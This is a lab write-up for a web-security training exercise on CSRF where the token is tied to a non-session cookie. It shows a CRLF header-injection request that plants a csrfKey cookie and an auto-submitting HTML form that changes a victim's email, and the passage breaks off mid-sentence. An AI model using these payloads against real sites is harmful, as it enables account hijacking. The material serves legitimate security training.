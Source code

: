 # LAB.5 CSRF where token is tied to non-session cookie

## Description

 This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

    wiener:peter
    carlos:montoya


## Solution

I login with `wiener` credential and change the email.

I observe the `POST` request and I see the cookie being:

`Cookie: csrfKey=mbK44TIab4noSbzko13C2bh3773waBzW; session=LQj7P9cfgxPwWib7gWPktiIfSmq5YMbF`

and the body:

`email=test2%40wiener.com&csrf=8zC621jdRwqzMyXB2Wby1xL9Hf8t51rF`

I do the same with the carlos account:

`Cookie: csrfKey=2QPjiCdqWfOTDjqq7vQufZSquU1cEo3r; session=81br4yajt0Rlzgrj6OOMVTfUiWo8iVHq`

`email=test%40carlos.net&csrf=BpmVTDZrmMRh8jneSM5F5j6udE9eyo2P`

I change the `csrfKey` token from the first request to see if it changes the email address.

In this case it logged me out. Let's try to change the `csrf` in the body.

And in this case I get a `Invalid CSRF token".

Let's try the `csrfKey` and `csrf` from `carlos` to `wiener`.

And it worked, so this means that the vulnerbaility exists, as we can use the `csrfKey` and `csrf` from other accounts to perform actions.

But, still we need the session key, to do this.

There is a `search` function available in the home page, and there I just search for the string `halil`.

I send this request to the Burp Repeater, and I see there that this search query is reflected in the `Set-Cookie`:

`Set-Cookie: LastSearchTerm=Halil; Secure; HttpOnly`

So, I will use this to inject cookies to the victim user's browser.

Let's try this via repeater, by appending to the `GET` request the search value, and the `Set-Cookie`.

```http
GET /?search=Halil%0d%0aSet-Cookie:%20csrfKey=BpmVTDZrmMRh8jneSM5F5j6udE9eyo2P
```

In the response we see that we managed to set the `csrfKey`:

```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=Halil
Set-Cookie: csrfKey=BpmVTDZrmMRh8jneSM5F5j6udE9eyo2P; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
```

So with our payload all we need is to set the `csrf` and the `csrfkey`.

Since `csrf` is set by the body that's no problem at all.

And for the `csrfKey` we will set it by using the reflected search function.

In the exploit server add this:


```html
<form action="https://0ae50097035970f08020b71800e9006b.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="pwned&commat;vatrasec&period;net" />
<input type="hidden" name="csrf" value="8zC621jdRwqzMyXB2Wby1xL9Hf8t51rF" />
</form>
<img src="0ae50097035970f08020b71800e9006b.web-security-academy.net/?search=Halil%0d%0aSet-Cookie:%20csrfKey=mbK44TIab4noSbzko13C2bh3773waBzW" onerror="document.forms[0].submit() ">
```

This means that it will send a `POST` request to change the email, with the email we provided, and will set the cs